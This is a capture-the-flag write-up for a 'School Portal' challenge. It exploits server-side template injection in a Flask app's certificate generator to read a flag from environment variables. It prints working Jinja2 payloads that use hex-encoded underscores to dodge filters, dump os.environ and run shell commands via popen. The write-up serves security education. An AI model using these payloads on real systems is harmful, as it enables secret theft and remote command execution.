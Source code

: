 # School Portal - Server-Side Template Injection (SSTI) Writeup

## Challenge Overview
The School Portal challenge involves exploiting a Server-Side Template Injection (SSTI) vulnerability in a Flask web application to retrieve a flag stored as an environment variable.

## Initial Reconnaissance

### Application Analysis
- User registration and authentication
- Dashboard functionality
- Certificate generation system

![Home Page](home_page.png)
*Initial landing page of the School Portal*

![Registration](registration.png)
*User registration form*

![Dashboard](dashboard.png)
*User dashboard interface*

## Vulnerability Discovery

### Certificate Generation Feature
The application includes a certificate generation feature that appears to accept the certificate name. This is often a prime target for template injection attacks.

![Certificate Generation Form](certificate_generation.png)
*Certificate generation*

### SSTI Detection and Testing
During testing of the certificate generation functionality, I started with a basic SSTI detection payload to see if the application processes user input through a template engine.

**Initial Test Payload:** `{{7*7}}`

![Further SSTI Testing](trying_ssti.png)
*Initial Test Payload*

![Generated Certificate with SSTI Test](generated_certificate.png)
*Result of the payload - Notice the output shows "49" indicating successful template injection*

The successful execution of the mathematical expression `{{7*7}}` returning `49` confirms that the application is vulnerable to Server-Side Template Injection, likely using Jinja2 template engine based on Flask framework indicators.

## Exploitation Process

### Step 1: Environment Variable Enumeration
Since we know that the flag is stored as an environment variable, I crafted a payload to access the application's environment:

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('environ')}}
```

**Payload Breakdown:**
- `request|attr('application')` - Access the Flask application object
- `attr('\x5f\x5fglobals\x5f\x5f')` - Access global variables (encoded `__globals__`)
- `attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')` - Get builtins module
- `attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')` - Import os module
- `attr('environ')` - Access environment variables

**Note:** Hex encoding (`\x5f`) is used to bypass potential filters that might block `__` sequences.

![Environment Variables](get_env_variables.png)
*Environment variable enumeration results showing available environment variables*

### Step 2: Flag Extraction Optimization
The initial payload revealed environment variables but the flag output was truncated. To properly extract the complete flag, I refined my approach:

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('echo $FLAG_00_This_real | fold -w 50')|attr('read')()}}
```

**Payload Improvements:**
- `attr('popen')('echo $FLAG_00_This_real | fold -w 50')` - Execute shell command to echo the flag
- `fold -w 50` - Format output with line breaks every 50 characters for better readability
- `attr('read')()` - Read the command output

![Flag Extraction](flag.png)
*Successfully extracted flag using the optimized SSTI payload*

## Flag
The flag was successfully extracted using the optimized SSTI payload.


## Difficulty: Easy
This challenge demonstrates the importance of secure template handling and the risks associated with Server-Side Template Injection vulnerabilities.
